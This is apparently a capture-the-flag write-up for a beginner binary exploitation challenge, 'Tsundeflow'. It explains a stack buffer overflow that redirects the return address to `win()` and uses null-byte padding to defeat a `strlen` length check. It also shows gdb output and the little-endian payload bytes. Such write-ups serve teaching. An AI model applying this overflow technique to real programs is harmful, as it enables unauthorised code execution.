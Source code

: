# Tsundeflow
As the simplest pwn challenge, this one is solvable by overflowing the address of `win()` to the `RET` address on the buffer. Calculating the amount of junk before reaching `RET` is as simple as `32` size of buffer + `4` address of the stack frame pointer, to reach `36`.

There is however, one more catch. The usage of `strlen` to check for buffer overflows, but wait! `strlen` counts characters in a `char[]`, and `char[]` ends with a `\x00` null byte, so we can trick the program into thinking we have lesser characters than there really is! So, we have to use `36` bytes of `\x00`.

Thus, by giving `36` bytes, we get to the `RET` address, which we will populate with `win()`'s address

Now, to find the address of `win()`, we can load it up in `gdb`,

    # gdb tsundeflow
    GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.04) 7.11.1
    Copyright (C) 2016 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
    and "show warranty" for details.
    This GDB was configured as "x86_64-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    <http://www.gnu.org/software/gdb/bugs/>.
    Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.
    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    gdb> p &win
    $1 = (<text variable, no debug info> *) 0x80484eb <win>

Bingo! Now all we have to do is code it little-endian and submit it as our payload with the junk data. `0x80484eb` becomes `\xeb\x84\x04\x08`.

Another way of getting the address involves [pwntools](https://github.com/Gallopsled/pwntools), which is represented in the [solutions](solve.py).
